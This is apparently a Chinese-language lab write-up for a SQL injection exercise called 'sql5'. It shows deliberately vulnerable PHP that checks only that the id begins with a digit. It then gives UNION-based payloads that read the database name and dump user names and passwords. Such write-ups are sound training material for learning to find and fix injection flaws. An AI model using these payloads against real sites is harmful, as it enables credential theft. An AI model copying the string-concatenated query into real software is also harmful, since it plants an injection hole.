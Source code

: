 # sql5

进入example5.php

源码
```php
<?php

  require_once('../header.php');
  require_once('db.php');
        if (!preg_match('/^[0-9]+/', $_GET["id"])) {
                die("ERROR INTEGER REQUIRED");
        }
        $sql = "SELECT * FROM users where id=";
        $sql .= $_GET["id"] ;

        $result = mysql_query($sql);

        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```
第五关是正则匹开头必须是数字开头否则就直接结束程序
emmmm
谜一般的操作
可以直接使用超过它字段最大数就可以了
直接来个100，指定超过最大字段数
payload1
```sql
example5.php?id=100 union select 1,2,database(),4,5
```
![img](../../../image/sqli/3986446211606.png)
可以绕过
之后正常联合查询就行了

payload2
```sql
example5.php?id=100 union select 1,group_concat(name),group_concat(passwd),4,5 from users
```

拿到数据
![img](../../../image/sqli/1025149229486.png)

| 请求方式 |            过滤方式            |           注入方式           |      闭合方式       |
| -------- | ------------------------------ | ---------------------------- | ------------------- |
| GET      | 使用正则匹配传参的开头是否是数字 | 超过最大字段数的数字，联合查询 | 数字型注入不需要闭合 |

过关^-^